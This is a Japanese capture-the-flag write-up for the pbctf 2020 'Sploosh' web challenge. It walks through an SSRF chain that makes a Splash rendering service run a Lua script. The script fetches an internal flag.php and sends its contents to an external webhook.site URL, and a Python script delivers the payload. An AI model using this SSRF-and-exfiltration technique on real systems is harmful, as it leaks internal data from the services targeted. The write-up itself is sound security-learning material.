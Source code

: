 Not solved :(

# Try

リンク先にアクセスすると以下のような画面が表示される。

![](img/2020-12-05-16-46-54.png)

適当にURLを入力し、Submitすると謎の数字が出力される。

![](img/2020-12-05-16-47-50.png)

また、このページでソースコードをダウンロードできる。[[source code](dist.zip)]

ユーザーが値をSubmitしたとき、サーバーサイドでの動作は次のようになる。

`index.php`

* `api.php?url=`を呼び出す

`api.php`

* `file_get_contents("http://splash:8050/render.json?timeout=1&url=" . urlencode($url))`を実行する

* 実行結果をJSON形式で返す

    * `{"geometry":[0,0,1024,768]}`

`index.php`

* `api.php`の戻り値を表示する

脆弱性がありそうなのは`api.php`で、ここで`flag.php`を呼び出すことができれば良さそう。
 
| input         | output       |
| ------------- | ------------ |
| ` `           | undefined    |
| `php://input` | null         |
| `flag`        | 0,0,1024,768 |

`file_get_contents`では`scrapinghub/splash`の`render.json`にアクセスしている。

そのため、PHPの実行結果を`geometry`キーの値に設定できないか、Splashのドキュメントを読んで調べる。

* https://splash.readthedocs.io/en/stable/api.html

# Solution

**[writeup]**

* https://ctftime.org/writeup/25207

`Splash`でLuaスクリプトを実行する。

* [Splash Scripts Tutorial](https://splash.readthedocs.io/en/stable/scripting-tutorial.html#scripting-tutorial)

実行するスクリプトは以下の通り。

```lua
function main(splash)
    local treat = require("treat")
    local json = splash:http_get('http://172.16.0.14/flag.php')
    local response=splash:http_get('https://webhook.site/25760c6e-5ef1-42f7-b8e1-bae8e3abbf4b?flag='.. treat.as_string(json.body))
end 
```

これを`execute?lua_source=`に渡せばよい。

実行結果はWebhookで受け取る。今回は https://webhook.site/ を使う。

```py
import requests
from urllib.parse import quote

lua="""
function main(splash)
    local treat = require("treat")
    local json = splash:http_get('http://172.16.0.14/flag.php')
    local response=splash:http_get('https://webhook.site/25760c6e-5ef1-42f7-b8e1-bae8e3abbf4b?flag='.. treat.as_string(json.body))
end         
"""
 
url='http://sploosh.chal.perfect.blue/api.php?url=http://splash:8050/execute?lua_source='+quote(lua)
response=requests.get(url)
print(response.text)
```

上記コードを実行すると、Webhookに対するリクエストを見ることができる。

![](img/2020-12-07-20-24-41.png)

<!-- pbctf{1_h0p3_y0u_us3d_lua_f0r_th1s} -->

## Comment

Webhookを使った問題が初めてだった。

また、APIドキュメントを読んでLuaスクリプトが実行できることはわかっていたが、パラメータの渡し方がわかっていなかった。